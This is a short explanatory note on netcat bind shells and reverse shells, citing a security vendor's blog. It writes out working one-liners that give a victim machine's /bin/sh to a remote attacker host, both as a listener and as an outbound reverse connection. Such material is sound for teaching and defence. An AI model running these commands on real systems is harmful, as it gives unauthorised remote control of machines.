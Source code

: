 ## Bind shell(Victim listener)

    Victim machine: nc -lp 31337 -e /bin/sh
    Attacker machine: nc 192.168.1.53 31337

A bind shell is established when a victim system "binds" its shell to a local network port. To achieve this using netcat, you should execute the command "nc -lp 31337 -e /bin/sh" on the victim machine. This sets up a listener on the machine on port 31337 and will execute the /bin/sh when another machine connects to its listener on port 31337. The attacker would enter the command "nc 192.168.1.53 31337" to connect to the victim's bind shell.


## Reverse shell(Attacker listener)
    Victim machine: nc 192.168.1.53 31337 –e /bin/sh
    Attacker machine: nc -lp 31337

A reverse shell is established when the target machine communicates with an attack machine listening on a specific port. To set up a listener on the attack machine, you would use the command "nc -lp 31337" on it. To connect to the attacking machine from the victim machine, you would enter the command "nc 192.168.1.53 31337 –e /bin/sh" on it.

https://www.threatlocker.com/blog/reverse-shells-vs-bind-shells 
